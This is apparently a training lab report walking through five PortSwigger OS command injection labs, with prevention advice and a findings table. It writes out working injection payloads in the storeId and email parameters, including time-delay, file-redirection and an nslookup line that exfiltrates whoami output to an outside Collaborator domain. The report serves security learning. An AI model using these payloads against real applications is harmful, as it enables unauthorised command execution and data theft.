






# Lab 1-4 — Command Injection
### Companion Lab Report: PortSwigger Web Security Academy

| | |
|---|---|
| **Author** | Iliya Dehghani |
| **Topic** | OS Command Injection (visible, blind, time-based, out-of-band) |
| **Tooling** | Burp Suite Professional (Inspector, Burp Collaborator) |
| **Report Type** | Vulnerability walkthrough / technical lab report |

---

## 1. Objective

This report covers five PortSwigger Web Security Academy labs on OS command injection, progressing from simple visible command execution through blind injection detected via time delays, output redirection, and out-of-band DNS interaction/data exfiltration using Burp Collaborator.

## 2. Background

**OS command injection** occurs when an attacker manipulates an application into executing arbitrary operating system commands, typically because user-supplied input is passed unsanitized into a system/shell function. Successful exploitation can lead to unauthorized data access, system compromise, or full server takeover.

**Prevention best practices:**

1. **Validate and sanitize user input** — check against a strict allowlist and escape or reject shell metacharacters before passing data to system functions.
2. **Least privilege** — run applications with the minimum permissions necessary, limiting the impact of a successful injection.
3. **Regular security testing** — periodic penetration testing and automated scanning to catch injection points before attackers do, paired with runtime monitoring to detect suspicious activity.

## 3. Tools Used

| Tool | Purpose |
|---|---|
| Burp Suite Inspector | Decoding and modifying request parameters to inject shell metacharacters |
| Burp Collaborator | Detecting out-of-band DNS interactions for blind command injection confirmation and data exfiltration |

## 4. Methodology and Walkthrough

### Lab 1 — OS Command Injection, Simple Case (Apprentice)

**Objective:** Execute `whoami` via the vulnerable product stock checker and read its output directly in the response.

The stock-checker `POST` request was known to pass user-supplied product/store IDs into a shell command. Using Burp Inspector, the `storeId` parameter was modified to append a second command:

```
storeId=1 && whoami
```

The `&&` operator chains the second command after the first executes; `whoami` output was returned directly in the response, confirming the injection and solving the lab. `&` and `|` were also tested and worked equivalently.


*Figure 1 — `storeId` parameter modified with `&& whoami`, returning the current user's identity directly in the response.*

### Lab 2 — Blind OS Command Injection with Time Delays (Practitioner)

**Objective:** Trigger a 10-second delay via the feedback form's `email` parameter, where command output is not reflected in the response.

Since output isn't visible, timing was used as the detection signal. The `email` parameter was modified using the logical OR operator (`||`, executing the second command only if the first fails/is empty) paired with `sleep 10`:

```
email=x||sleep 10||
```

The observed 10-second response delay confirmed command execution, despite no output being visible.


*Figure 2 — `||sleep 10||` injected into the `email` parameter, confirmed via a measurable response delay.*

### Lab 3 — Blind OS Command Injection with Output Redirection (Practitioner)

**Objective:** Execute `whoami` and retrieve its output despite the response not reflecting command output directly.

Since the `/var/www/images` directory was known to be both writable and web-accessible, output was redirected to a file within it:

```
email=x||whoami > /var/www/images/output.txt||
```

Requesting the newly created `output.txt` via the image-serving endpoint then revealed the `whoami` result.


*Figure 3 — `whoami` output redirected to `/var/www/images/output.txt` and retrieved via direct URL access.*

### Lab 4 — Blind OS Command Injection with Out-of-Band Interaction (Practitioner)

**Objective:** Trigger a DNS lookup to Burp Collaborator, where the command executes asynchronously with no reflected output and no writable/accessible location for redirection.

With neither response reflection nor output redirection available, out-of-band (OOB) interaction was used instead. The `email` parameter was injected with an `nslookup` call targeting a unique Burp Collaborator subdomain:

```
email=x||nslookup 0hirw65wfd3z2882mohiew8sejka80wp.oastify.com||
```


*Figure 4 — `nslookup` injected to trigger an out-of-band DNS interaction with the Collaborator subdomain.*

The Collaborator client confirmed a successful, incoming DNS lookup, verifying command execution with no reliance on response content or timing.


*Figure 5 — Collaborator interaction log confirming the DNS lookup was received, proving command execution.*

### Lab 5 — Blind OS Command Injection with Out-of-Band Data Exfiltration (Practitioner)

**Objective:** Execute `whoami` and exfiltrate its output via a DNS query to Burp Collaborator (no reflected output, no writable/accessible redirection target).

The output-redirection and DNS-interaction techniques from Labs 3 and 4 were combined: `whoami`'s output was embedded directly into the subdomain portion of an `nslookup` query, so the username itself would appear in the DNS request captured by Collaborator:

```
email=x||nslookup $(whoami).0hirw65wfd3z2882mohiew8sejka80wp.oastify.com||
```


*Figure 6 — `whoami` output embedded as a DNS subdomain label for exfiltration via Collaborator.*

The first few attempts successfully appeared in the Collaborator interaction log, but subsequent attempts stopped returning results — likely due to rate limiting or an automated abuse-prevention mechanism on the target/Collaborator infrastructure.

## 5. Findings / Observations

| # | Finding | Severity | Root Cause |
|---|---|---|---|
| 1 | Direct, unauthenticated OS command execution via `storeId` parameter | Critical | Shell metacharacters (`&&`, `\|`, `\|\|`) not filtered before command construction |
| 2 | Blind command injection confirmable via response timing | Critical | Same unsanitized shell concatenation, output simply not reflected |
| 3 | Blind command injection exploitable via output redirection to a web-accessible path | Critical | Writable directory also served as static web content |
| 4 | Blind command injection confirmable/exfiltratable via out-of-band DNS interaction | Critical | No egress filtering preventing outbound DNS from the application server |

## 6. Conclusion

All five labs shared a single root cause: **user-controlled input concatenated directly into a shell command with no sanitization of shell metacharacters** (`&&`, `|`, `||`). The distinguishing factor between labs was purely the *detection and exfiltration channel* available to the attacker — direct response reflection, response timing, redirection to an accessible file, or out-of-band DNS — none of which change the underlying vulnerability. Proper mitigation requires avoiding shell invocation with user input entirely (e.g., using parameterized subprocess APIs that don't invoke a shell), or at minimum strict allowlist-based input validation, combined with egress filtering to limit the blast radius of any successful out-of-band exfiltration attempt.

## 7. References

[1] PortSwigger, "OS command injection." [Online]. Available: https://portswigger.net/web-security/os-command-injection
